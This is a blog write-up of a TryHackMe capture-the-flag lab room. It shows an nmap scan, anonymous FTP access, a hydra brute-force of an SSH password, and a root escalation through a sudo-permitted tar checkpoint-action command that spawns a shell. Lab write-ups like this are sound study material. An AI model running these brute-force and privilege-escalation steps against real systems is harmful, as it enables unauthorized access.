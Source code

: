 ```yaml
---
title: "Bounty_hacker.sh"
date: 2020-10-02T16:10:45-04:00
draft: false
toc: true
featured: false
summary: "You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!"
images:
  - "img/bountyHacker_cover.jpg"
cover: "img/bountyHacker_cover.gif"
tags:
  - hacking
  - tryHackme
  - writeups
---
```



## Bounty Hacker - THM Room

Hello interweb readers! I've felt like doing a quick box since I'm quite busy with work these days and its hard to find time to do longer boxes. Anyways, this time I went for 'Bounty Hacker' TryhackMe's room. This is a writeup detailing all my process to root this room, flaws and all. I embrace mistakes and try to learn from them, therefore this post also includes my failed attempts. You have been warned :) 

PS: The challenge was to have this box rooted and half documented at the very least during my lunch break and finish the quick writeup later today. Spoiler alert: I was able to, and I'm super happy about it.

- Please visit This room on TryHackMe by [clicking this link](https://tryhackme.com/room/cowboyhacker).
- **PLEASE NOTE:** Passwords, flag values, or any kind of answers to the room questions were intentionally masked as required by THM writeups rules. 


### Recon: Nmap scan

We start as usual firing up nmap and running a scan, notice I initially tested the target to see if it responded to ping and it did. Otherwise, I would've added `-Pn` switch to nmap to avoid pinging the target. So I ran this: `sudo nmap -sV -sC -T4 -A -p- 10.10.38.249`

While nmap runs I usually open the target IP in the browser to see if anything is being served as a webpage:

Turns out we do have something, they are teasing us a bit with the story behind this room. Which seems related to the popular `Cowboy bebop` anime. Which also has AN AMAZING SOUNDTRACK!

![Page served](https://i.imgur.com/CTE4wsW.png)

Before we move to our friend `nmap` allow me to add some music to the post, I truly think Cowboy Bebop's OST is awesome. Let's hit play on this song and move on with the hacking:


> **SEATBELTS** - **Tank!** - **Cowboy Bebop OST** - **Written by Yoko Kanno**
> {{< youtube id="n2rVnRwW0h8" autoplay="false" >}}
> Crank that volume up!


Ok enough fooling around, let's see what that nmap scan returned:

```sh
sudo nmap -sV -sC -T4 -A -p- 10.10.38.249
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 13:10 EDT
Nmap scan report for 10.10.38.249
Host is up (0.33s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.0.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Infomir MAG-250 set-top box (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%), Linux 3.7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   226.02 ms 10.13.0.1
2   ... 3
4   364.92 ms 10.10.38.249

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1957.43 seconds
```

### FTP Access

One of the results we got brack from the nmap scan, is that the target has an FTP service with anonymous access enabled. Let's try that:

```sh
┌──(kali㉿kali)-[~/Documents/THM/bountyHacker]
└─$ ftp 10.10.38.249                                                              
Connected to 10.10.38.249.
220 (vsFTPd 3.0.3)
Name (10.10.38.249:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 
```

It seems we have two files in the FTP server. We download both using `get {file_name}` command. If we then open both files we see some interesting data on each of them:

- **task.txt** : Mentions some task to be performed, and the message is signed by someone named `lin`
- **locks.txt** : Contains a list of possible usernames, or maybe passwords listed one-per-line.

Let's see if we can use that information next.


### Bruteforcing: hydra

At this point, I initially fired up hydra with the `locks.txt` as username list and `rockyou.txt` as the wordlist. That didn't work. Then I tried using the the user mentioned in the `task.txt` file `lin` and instead of using `rockyou.txt` as wordlist and I used `locks.txt` instead. That took a while but it worked:

We brute-force the SSH login using `lin` as username and the `locks.txt` file as the wordlist:

```sh
hydra -l lin -P locks.txt 10.10.38.249 ssh 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-02 15:52:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.38.249:22/
[22][ssh] host: 10.10.38.249   login: lin   password: THM{REDACTED_HAVE_FUN}
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-02 15:52:43
```

### SSH Access

Once `hydra` managed to brute-force his way in, we log in using lin's credentials and locate the `user.txt` flag. Which is conveniently located at the same directory we land after login.

```sh
┌──(kali㉿kali)-[~/Documents/THM/bountyHacker]
└─$ ssh lin@10.10.38.249                                                                                                                  
The authenticity of host '10.10.38.249 (10.10.38.249)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.249' (ECDSA) to the list of known hosts.
lin@10.10.38.249's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{REDACTED_HAVE_FUN}
lin@bountyhacker:~/Desktop$ 
```

### We check current user permissions

We need now, to see how we can escalate privileges so we can get the root flag. We start by checking what is the access level of the current user. We doe `sudo -l` to see if we have access to anything as sudo (root)

```sh
lin@bountyhacker:/tmp$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:/tmp$ 

```
It seems the user is allowed to run `tar` as root. Let's see if we find any way to exploit that. A good place to look is at GTFObins page.
They have an entry for `tar` [here](https://gtfobins.github.io/gtfobins/tar/).


We are offered a couple of options, the first one is trying to run this command: `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` in our case since we know we can run `tar` as `sudo` we do that:

```sh
lin@bountyhacker:/tmp$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# 

```

And we got root, now we just need to locate the root.txt flag:

```sh
# cd root
# ls
root.txt
# cat root.txt
THM{REDACTED_HAVE_FUN}
# 

```

That's it. We rooted the box and with just enough time left on my lunch break so I can get some coffee before getting back to work.
I hope you enjoyed this quick room as I did.

Thank you and Happy hacking!

{{< thm_badge >}}